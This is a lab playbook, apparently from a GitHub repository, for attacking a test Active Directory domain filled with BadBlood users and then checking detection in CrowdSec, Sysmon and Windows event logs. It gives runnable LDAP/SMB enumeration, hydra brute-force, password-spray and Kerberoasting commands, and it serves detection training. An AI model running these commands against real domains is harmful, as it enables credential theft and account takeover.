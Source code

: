# Active Directory Attack Playbook (Using BadBlood Users)

## 🛠️ **Lab Setup Overview**

- **Target:** Active Directory Server (e.g., Windows Server 2022)
  - IP Address: `192.168.10.50`
  - Domain: `soclab.local`
  - Vulnerable Users: Populated by **BadBlood**

- **Attacker:** Kali Linux (e.g., 2024 Edition)
  - IP Address: `192.168.20.30`

- **Network:** Both machines are connected and pass through **pfSense** for monitoring and CrowdSec integration.

---

## 📊 **1. Identify BadBlood Users**

### From the Active Directory Server:

Log into the AD server and list the users generated by **BadBlood**:

```powershell
Get-ADUser -Filter * | Select-Object Name, SamAccountName
```

### From the Kali Linux Machine:

Enumerate users via LDAP (replace values accordingly):

```bash
ldapsearch -x -h 192.168.10.50 -D "user@soclab.local" -W -b "dc=soclab,dc=local"
```

✅ **Objective:** Identify target users with weak or known passwords.

---

## 🔍 **2. Enumerate Active Directory (LDAP/SMB)**

### Using **enum4linux**

```bash
enum4linux -a 192.168.10.50
```

### Using **rpcclient** (SMB enumeration)

```bash
rpcclient -U "guest" 192.168.10.50
```

List available users:

```bash
querydispinfo
```

✅ **Objective:** Gather information about domain users, shares, and policies.

---

## 🔑 **3. Brute-Force AD Accounts**

### SMB Brute-Force (Weak Passwords)

```bash
hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/rockyou.txt smb://192.168.10.50
```

### LDAP Brute-Force

```bash
hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/rockyou.txt ldap://192.168.10.50
```

✅ **Objective:** Identify vulnerable accounts with weak passwords.

---

## 📜 **4. Password Spray Attack**

Simulate a slow password spray (avoid account lockout):

```bash
crackmapexec smb 192.168.10.50 -u /usr/share/wordlists/common_users.txt -p Welcome2024
```

✅ **Objective:** Detect users with predictable passwords without triggering lockout.

---

## 🎭 **5. Kerberoasting Attack (Steal Service Account Hashes)**

Ensure **Impacket** is installed:

```bash
sudo apt install python3-impacket
```

Run the **Kerberoasting** attack:

```bash
GetUserSPNs.py soclab.local/user:Password123 -request
```

✅ **Objective:** Extract service account hashes for offline cracking.

---

## 📊 **6. Analyze Detection (CrowdSec + Sysmon + Windows Event Logs)**

1. **Sysmon (Windows)**:
    - Event ID **4625**: Failed Logon Attempts
    - Event ID **4769**: Kerberos TGS Requests

2. **CrowdSec Alerts**:
    - Monitor the dashboard for IP bans.
    - Check active decisions:

    ```bash
    sudo cscli decisions list
    ```

3. **Windows Event Viewer**:
    - Security > Audit Failure (Event ID 4625, 4740)

✅ **Objective:** Confirm detection and analyze attack visibility.

---

## 🚀 **7. Next Steps**

- Perform **Lateral Movement** (e.g., **Pass-the-Hash**).
- Test **LDAP Injection** and privilege escalation.
- Monitor logs for **CrowdSec bans** and firewall blocks.

Do you want to dive deeper into a specific attack or monitor additional logs?

